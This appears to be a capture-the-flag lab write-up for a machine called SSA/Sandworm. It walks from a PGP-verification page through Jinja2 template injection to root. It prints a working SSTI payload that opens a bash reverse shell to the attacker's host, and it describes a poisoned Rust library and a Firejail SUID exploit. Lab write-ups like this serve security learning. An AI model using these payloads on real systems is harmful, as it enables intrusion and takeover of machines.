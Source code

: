 🧠 TryHackMe – SSA (HTB) Write-up – PGP Validation ➜ SSTI ➜ RCE ➜ PrivEsc to Root

To start, I added the machine to my /etc/hosts to resolve the hostname cleanly:

sudo su
echo "10.10.11.218 ssa.htb" >> /etc/hosts

Then I launched an initial scan using RustScan:

rustscan -a ssa.htb

🎯 Ports Open:

    22 (SSH)

    80 (HTTP)

    443 (HTTPS)

🌐 Recon on Web (Port 80)

The site represents a government-style telecom agency demonstrating PGP encryption. Since HTTPS is used and the cert is invalid, I disabled verification for enumeration:

feroxbuster -u http://ssa.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

Interesting endpoints discovered:

    /about, /contact, /guide, /pgp

    /view and /admin redirect to /login?next=...

    Numerous static files including JavaScript, CSS, and images

🛡️ PGP Verification Feature (Vuln Discovery)

A PGP verification feature was exposed. I signed a message using:

    Key generation: pgpkeygen.com

    Signing: 2pih.com/pgp.html

Once submitted, the server returned a popup with parsed key details.

Knowing the backend is Flask (noted in the footer), I tested a basic SSTI payload in the message field:

{{7*7}}

✅ Output: 49 — confirmed Jinja2 SSTI vulnerability.
⚙️ Exploiting SSTI → Remote Code Execution (RCE)

Started a reverse shell listener using pwncat:

python3 -m pwncat
connect -lp 4444

Payload used:

{{config.__class__.__init__.__globals__['os'].popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1"').read()}}

🔁 Got a shell — initially limited, but upgraded via:

/bin/bash

🔍 Enumeration → Credential Disclosure

While pivoting through the file system, found credentials in:

/home/atlas/.config/httpie/sessions/localhost_5000/admin.json

Extracted:

    username: silentobserver

    password: [REDACTED]

🧠 SSH Access to User (silentobserver)

Logged in as a real user via pwncat:

connect ssh://silentobserver:[REDACTED]@ssa.htb:22

Uploaded and ran linpeas.sh for further enumeration:

bash /tmp/linpeas.sh

🦠 Privilege Escalation via Rust Binary Poisoning

Discovered a suspicious binary (tipnet) being executed by root as atlas.

✅ Found writable Rust source file: lib.rs
Injected a Rust reverse shell in the poisoned lib, uploaded via pwncat.

Listener setup:

python3 -m pwncat
connect -lp 4444

Got a reverse shell as atlas.
🔓 Final PrivEsc – Firejail SUID Exploit

firejail was found with the SUID bit enabled — a known escalation vector.

Used exploit from:
👉 GugSaas Firejail SUID Exploit

Uploaded and ran the script:

chmod +x exploit.py
python3 exploit.py

Then in a second shell:

firejail --join=310279
su -

✅ Boom. Root shell acquired:

# root@sandworm:~#

🎯 Final Notes

This box combined web logic flaws (SSTI) with weak process execution and bad privilege separation. From web shell ➜ user ➜ source code poison ➜ root – a full chain with elegant exploitability.
